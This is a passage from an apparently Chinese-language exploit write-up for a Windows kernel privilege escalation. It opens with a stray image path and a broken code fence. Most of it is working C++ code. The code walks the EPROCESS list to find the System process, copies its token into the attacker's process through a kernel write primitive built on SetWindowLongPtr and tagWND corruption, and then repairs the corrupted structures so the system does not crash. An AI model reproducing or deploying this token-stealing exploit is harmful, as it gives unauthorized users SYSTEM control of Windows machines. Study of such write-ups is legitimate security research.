 ```
2. 修改我的进程EPROCESS权限到System:

```

定位到自己 EPROCESS 后遍历 EPROCESS->ActiveProcessLinks 链表，获取进程 ID 为 4 的进程后复制该进程的 Token 到我的 Token。

```
std::cout << "Get current kernel eprocess: " << pMyEProcess << std::endl;
 
ULONG_PTR pSystemEProcess = 0;
 
ULONG_PTR pNextEProcess = pMyEProcess;
for (int i = 0; i < 500; i++) {
    ReadKernelMemoryQQWORD(pNextEProcess + g_dwEPROCESS_ActiveProcessLinks_offset, ululValue1, ululValue2);
    pNextEProcess = ululValue1 - g_dwEPROCESS_ActiveProcessLinks_offset;
 
    ReadKernelMemoryQQWORD(pNextEProcess + g_dwEPROCESS_UniqueProcessId_offset, ululValue1, ululValue2);
 
    ULONG_PTR nProcessId = ululValue1;
    if (nProcessId == 4) { // System process id
        pSystemEProcess = pNextEProcess;
        std::cout << "System kernel eprocess: " << std::hex << pSystemEProcess << std::endl;
 
        ReadKernelMemoryQQWORD(pSystemEProcess + g_dwEPROCESS_Token_offset, ululValue1, ululValue2);
        ULONG_PTR pSystemToken = ululValue1;
 
        ULONG_PTR pMyEProcessToken = pMyEProcess + g_dwEPROCESS_Token_offset;
 
        //Write kernel memory
        LONG_PTR old = SetWindowLongPtr(g_hWnd[0], dwpWnd0_to_pWnd1_kernel_heap_offset + g_dwModifyOffset_offset, (LONG_PTR)pMyEProcessToken);
        SetWindowLongPtr(g_hWnd[1], 0, (LONG_PTR)pSystemToken);  //Modify offset to memory address
        SetWindowLongPtr(g_hWnd[0], dwpWnd0_to_pWnd1_kernel_heap_offset + g_dwModifyOffset_offset, (LONG_PTR)old);
        break;
    }
}

```

### 7. 恢复漏洞防止蓝屏

完成提权后对修改过的 tagWND 结构进行恢复。

```
//Recovery bug
g_dwpWndKernel_heap_offset2 = *(ULONG_PTR*)((PBYTE)pWnd2 + g_dwKernel_pWnd_offset);
ULONG_PTR dwpWnd0_to_pWnd2_kernel_heap_offset = *(ULONGLONG*)((PBYTE)g_pWnd[0] + 0x128);
if (dwpWnd0_to_pWnd2_kernel_heap_offset < g_dwpWndKernel_heap_offset2) {
    dwpWnd0_to_pWnd2_kernel_heap_offset = (g_dwpWndKernel_heap_offset2 - dwpWnd0_to_pWnd2_kernel_heap_offset);
 
    DWORD dwFlag = *(ULONGLONG*)((PBYTE)pWnd2 + g_dwModifyOffsetFlag_offset);
    dwFlag &= ~0x800;
    SetWindowLongPtr(g_hWnd[0], dwpWnd0_to_pWnd2_kernel_heap_offset + g_dwModifyOffsetFlag_offset, dwFlag);  //Modify remove flag
 
    PVOID pAlloc = g_fRtlAllocateHeap((PVOID) * (ULONG_PTR*)(__readgsqword(0x60) + 0x30), 0, g_dwMyWndExtra);
    SetWindowLongPtr(g_hWnd[0], dwpWnd0_to_pWnd2_kernel_heap_offset + g_dwModifyOffset_offset, (LONG_PTR)pAlloc);  //Modify offset to memory address
 
```
